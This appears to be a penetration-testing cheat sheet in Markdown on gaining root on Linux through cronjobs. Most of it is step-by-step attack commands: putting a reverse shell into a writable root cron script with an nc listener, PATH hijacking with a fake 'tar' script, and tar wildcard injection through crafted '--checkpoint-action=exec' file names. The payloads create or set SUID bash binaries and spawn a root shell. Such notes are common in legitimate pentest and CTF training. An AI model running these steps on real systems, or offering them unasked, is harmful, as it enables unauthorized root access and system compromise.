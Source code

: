 # Cronjobs

## Program to use: pspy https://github.com/DominicBreuker/pspy

### 

    cat /etc/crontab

#### If we have write permissions on the script, we can modify it to enter a reverse shell in it that will automatically run as root.

### Reverse shell source:  Revshells https://revshells.com/

#### Open a listener then wait. 

#### Example: 

    nc -lvnp PORT

### If the full path of the script is not defined in the cronjob, then we can create our own script with the same name and run based on the PATH variables in the /etc/crontab file.

### We can also abuse wildcards for certain cronjobs to gain root.

## Wildcard Injection example:

### If a cronjob contains a wildcard utilizing tar we can do:

#### 1) 

    echo 'cp /bin/bash /tmp/bash; chmod u+s /tmp/bash' > runme.sh

#### 2) 

    chmod +x runme.sh

#### 3) 

    echo "" > --checkpoint=1

#### 4) 

    echo "" > --checkpoint-action=exec=sh runme.sh

#### 5) 

    /tmp/bash -p

### Note: Do the injection in the correct directory the automated script goes to so that it can actually run the injected commands via tar

## Generic wildcard injection

### Example:

### If you detect a cronjob/script that uses wildcard, chances are that it is vulnerable to wildcard injection.

### 1) 

    echo "cp /bin/bash /tmp/bash; chmod 4777 /tmp/bash" > shell.sh

### 2) 

    chmod +x shell.sh

### 3) 

    touch -- '-e shell.sh'

## More Examples:

Steps to exploit the example crontabs

Example vulnerable crontab

    #!/bin/sh
    export PATH="/home/USER/restapi:$PATH"
    cd /home/USER/restapi
    tar czf /tmp/flask.tar.gz *

### 1) Create a bash script that gives the bash binary the sticky bit

tar (script name)

    #!/bin/bash
    chmod u+s /bin/bash

### 2) Add it to the directory where the cronjob accesses it

    cp tar /home/USER/restapi/tar

### 3) Wait for the crontab to execute, then run the bash binary for root

    /bin/bash -p
